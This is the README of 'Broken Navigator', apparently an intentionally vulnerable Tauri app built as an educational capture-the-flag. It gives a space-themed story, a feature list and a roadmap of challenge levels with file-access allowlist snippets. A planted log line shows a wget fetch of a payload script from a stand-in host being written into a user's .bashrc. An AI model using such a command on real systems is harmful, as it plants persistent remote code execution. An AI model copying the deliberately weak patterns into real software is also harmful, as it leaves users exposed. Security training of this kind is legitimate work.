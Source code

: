 # Broken Navigator

## Disclaimer

This project is an example of a vulnerable application. It contains intentional
vulnerabilities and is meant as educational example.
**Please do not use or copy code from this application in any productive application!**

## Welcome

Welcome fellow travelers of the Tauri galaxy.
We figured you need something to guide you trough your journey, a tool that assures
safe travel at all times.
This is one of the reasons our Navigator was born. Unfortunately we encountered some hurdles
during development of this tool. One of our engineers went missing
during one of our test rides through the galaxy. They were using the Navigator
to orientate themselves in space. The other engineers suspect
they encountered some nasty space hackers, but we can't figure out where
our Navigator was breached. We stopped our engineering efforts until we
can be sure it is safe to use.

We are looking for security engineers to figure out how they breached our
engineers Navigator and how we can protect everyone using it.
Can you help us?

We got some logs transmitted before we lost contact. This could contain
some hints of the initial entrypoint.

```
2023-10-11T08:58:53.795661Z INFO load_navigation_readme{path="/tmp/readme"}: broken_navigator::commands: The Navigator loaded the navigation readme from /tmp/readme!
2023-10-11T08:59:53.799543Z  INFO write_navigation_event{event_data="wget https://example.com/payload.sh" path="/home/user/.bashrc"}: broken_navigator::commands: The space event /home/user/.bashrcc was saved!
```

## Functionality

- Load navigation files from the filesystem
- Write events to the filesystem
- Execute navigation file validation tools
- Load map updates from external map server
- Allows our admin console to fix broken navigation systems
- Provide clipboard assistant when copying coordinates
- ?

## Why is this application a thing?

This application is meant to showcase insecure, weak and improper code pattern commonly used in Tauri applications.
It is meant to be educational and to show newcomers to Rust what they should consider when building
Tauri `commands` or in general Tauri applications.

A similar project is the [OWASP Juice Shop](), which is focused on web applications running
in the browser.


## Roadmap 

### How to present the Tauri App

The first iteration could be to present it as a CTF where you can access the Tauri binaries directly in a virtual environment. Requires the code to be closed source until the CTF is over.
Setup/History
Group of friends doing a space tour in the Crab Nebula.
The operator vanishes into space and no one is controlling the ship right now.
They need to hack into the Tauri app console to save their lives and find and use the correct coordinates to get back to earth.
They are presented with a game-like terminal interfaces of a navigation system
Each terminal has one distinct function or step they need to perform.

Find the correct coordinates located on the system (check out the config)
Load the coordinates into the Navigator (find the right tauri command and invoke it with correct syntax)
Synchronize the time with a remote to accurately synchronize the coordinates drift in spacetime


### Structure of the app 

Different levels correspond to a different Tauri app
Each level has its own directory 
From the UI you can only access start next level app if you have finished current level
For fuzzing you can access the different directories directly with the source code 
Metrics of the Tauri app are displayed (configuration, commands)

### Challenges

#### Level 1

###### Learning

Existence of Tauri commands
Plugin Tauri commands can be restricted through the allowlist 

###### Objectives
Find the unlock passcode for the navigation terminal from the log file
Open the application.log file in the $APP/logs folder
Use the code to unlock the navigation terminal

##### Privileges

Access to the readDir and readFile Tauri commands
Scope is the same as in Level 2
```
"fs": {
       "readFile": true,
       "scope": {
         "allow": ["$APP/navigation/**"],
         "deny": ["$APP/navigation/coordinates.flag"]
       }
     }
```

#### Level 2

###### Learning

App developers can create custom commands
Custom commands are not restricted by the allowlist

###### Objectives

Find the correct navigation file with coordinates to earth
Load the navigation file and copy these into the target input

###### Privileges

Access to the readDir and readFile Tauri commands
Tauri custom command  load\_navigation\_file which can access system resources with no constraints with functions from rust std
The flag is the coordinates written into $APP/navigation/earth.coordinates
Allowlist configuration allows access to $APP/navigation/** but denies access to the flag file explicitly

```
"fs": {
       "readFile": true,
       "scope": {
         "allow": ["$APP/navigation/**"],
         "deny": ["$APP/navigation/coordinates.flag"]
       }
     }
```
